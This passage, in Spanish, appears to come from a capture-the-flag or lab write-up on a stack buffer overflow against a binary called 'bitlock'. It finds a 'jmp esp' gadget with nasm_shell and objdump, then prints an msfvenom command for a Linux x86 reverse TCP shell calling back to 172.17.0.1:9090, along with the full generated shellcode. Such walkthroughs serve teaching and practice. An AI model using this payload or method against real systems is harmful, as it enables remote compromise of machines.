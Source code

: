 ![ESP](images/spain/esp.png)

Como vemos, nuestros nops se estan almacenando al principio de la pila, esto significa que podemos intentar utilizar la dirección del gadget `jmp esp` el cual hace un salto a "esp" y así poder ejecutar nuestro shellcode. Para saber la direccion de `jmp esp` utilizaremos la herramienta `nasm_shell` de metasploit y `objdump`:

```css
❯ /opt/metasploit/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > exit
❯ objdump -d bitlock | grep "ff e4"
 804948b:	ff e4                	jmp    *%esp
❯ 
```

Perfecto, ya tenemos la dirección:

```css
 804948b:	ff e4                	jmp    *%esp
```

Ahora solo nos queda crear un shellcode con metasploit y actualizar el exploit:

```css
msfvenom -p linux/x86/shell_reverse_tcp lhost='172.17.0.1' lport='9090' -b "\x00\xff\x0a\x0d" -f py -v shellcode
```

```css
shellcode =  b""
shellcode += b"\xda\xc8\xba\xf6\x2a\x66\x39\xd9\x74\x24\xf4"
shellcode += b"\x5b\x2b\xc9\xb1\x12\x31\x53\x17\x83\xc3\x04"
shellcode += b"\x03\xa5\x39\x84\xcc\x78\xe5\xbf\xcc\x29\x5a"
shellcode += b"\x13\x79\xcf\xd5\x72\xcd\xa9\x28\xf4\xbd\x6c"
shellcode += b"\x03\xca\x0c\x0e\x2a\x4c\x76\x66\x01\xbf\x88"
shellcode += b"\x77\x31\xc2\x88\x54\x43\x4b\x69\x2a\x25\x1c"
shellcode += b"\x3b\x19\x19\x9f\x32\x7c\x90\x20\x16\x16\x45"
shellcode += b"\x0e\xe4\x8e\xf1\x7f\x25\x2c\x6b\x09\xda\xe2"
shellcode += b"\x38\x80\xfc\xb2\xb4\x5f\x7e"
```
